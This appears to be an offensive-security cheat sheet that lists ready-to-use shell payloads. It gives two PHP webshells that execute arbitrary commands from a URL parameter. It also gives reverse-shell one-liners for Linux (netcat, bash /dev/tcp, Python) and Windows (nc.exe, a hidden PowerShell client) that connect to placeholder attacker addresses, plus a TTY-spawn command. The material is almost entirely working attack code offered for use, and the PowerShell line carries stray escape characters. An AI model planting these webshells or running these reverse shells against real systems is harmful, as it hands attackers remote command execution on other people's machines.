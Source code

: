 # Shell

## Simple PHP webshell 1

`<?php echo system($_GET["cmd"]); ?>`

## Simple PHP webshell 2

```
<html>
	<form action="GET">
		<input type="text" name="cmd" />
		<input type="submit" value="Run" />
	</form>
	<pre><?php echo system($_GET["cmd"]); ?></pre>
</html>
```

## Linux reverse shells

### Netcat

`rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | nc <ATTACKER_IP\> <PORT\> 1\>/tmp/bkpipe`

### Bash

`bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'`

### Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("<ATTACKER_IP",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'`

### Spawn TTY

`python -c "import pty; pty.spawn('/bin/bash');"`

## Windows reverse shells

## Netcat

`nc.exe -e cmd.exe <ATTACKER_IP> <PORT>`

## Powershell

`powershell \-NoP \-NonI \-W Hidden \-Exec Bypass \-Command New-Object System.Net.Sockets.TCPClient("<ATTACKER_IP>",<PORT>);$stream \= $client.GetStream();\[byte\[\]\]$bytes \= 0..65535|%{0};while(($i \= $stream.Read($bytes, 0, $bytes.Length)) \-ne 0){;$data \= (New-Object \-TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback \= (iex $data 2>&1 | Out-String );$sendback2  \= $sendback + "PS " + (pwd).Path + "\> ";$sendbyte \= (\[text.encoding\]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`